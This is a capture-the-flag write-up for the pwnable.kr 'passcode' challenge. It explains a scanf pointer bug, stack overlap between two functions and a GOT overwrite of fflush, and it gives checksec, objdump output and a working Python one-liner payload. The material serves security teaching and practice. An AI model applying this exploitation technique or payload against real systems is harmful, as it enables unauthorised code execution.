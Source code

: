 In this challenge, we need to login to an application with two passcodes. In description of game, it's said that they ignored compiler warning (due to no reference passed to scanf) <br/>
We check the security properties and see that there's stack buffer overflow protection and code execution prevention. It's good that RELRO is partial and there's no PIE.
```
uzi@pwnpatrol:$ checksec passcode
[*] '/home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/5.passcode/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
Looking at the source code, the functions `welcome` and `login` are at the same level meaning that the stack we prepare in welcome,
can be used to manipulate behaviour of login. So this is the stack frame of `welcome` function
![](images/image.png)

* Yellow: $ebp and ret_addr pair
* Green: Stack canary
* Red: Bytes in the range between two red bars are name[100]
* Purple: Stack of of `login`.
    * `passcode1` overlaps with the last 4 bytes of name[100] in previous stack
    * `passcode2` overlaps with the stack canary in previous stack. Notice that there's no stack canary in stack of `login`. It seems that compiler does generate it when there's no risk of overflowing.

If there was only the first and single passcode check, we could pass this challenge by:
* Handcrafting a 100 bytes payload in `welcome` where the last 4 bytes are same as `passcode1`.
* Not providing an integer input for `scanf("%d", passcode1);` so that scanf will not try to update the value pointed by `passcode1`. Actually, as said in the beginning, this is the programming error compiler warns. If you provide an integer other than the address of a writable memory region, to those `scanf`s, there will be a segmentation fault since passcodes passed by value instead of reference.

We should exploit the programming error. What do have regarding `passcode1`
* We can control the content of passcode1.
* We can provide data that's written to the location pointed by passcode1

This is called as **writing an arbitrary value to an arbitrary location**, and it's very powerful. Since the binary is no PIE and RELRO is partial, I can manipulate GOT and change program execution.`fflush` is a good candidate as it's just called after first `scanf`.
Let's check its address in GOT:
```
uzi@pwnpatrol:$ objdump -R passcode
passcode:     file format elf32-i386
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
...
```
We need to override the value with the address of `system("/bin/cat flag");`. This call in `login` function is below. Even though the call instruction is at `0x80485ea`, a function call consists of two phases:
* Setting up the arguments (either pushing args to stack or setting registers depending on cpu, cpu mode, call type etc...).
* Making the call.

So we'll be using `0x80485e3` as the target value.
```
uzi@pwnpatrol:$ objdump -Mintel -d passcode | grep -A 40 "<login>:"
08048564 <login>:
 ...
 80485e3:       c7 04 24 af 87 04 08    mov    DWORD PTR [esp],0x80487af
 80485ea:       e8 71 fe ff ff          call   8048460 <system@plt>
 ...
```
Along with the script, challange can be solved with a one-liner as well. Of course, it needs to be exe
```
passcode@pwnable:~$ python3 -c 'import sys;sys.stdout.buffer.write(b"A"*96 + b"\x04\xa0\x04\x08" + str(0x80485e3).encode())' | ./passcode
...
Sorry mom.. I got confused about scanf usage :(
...
```





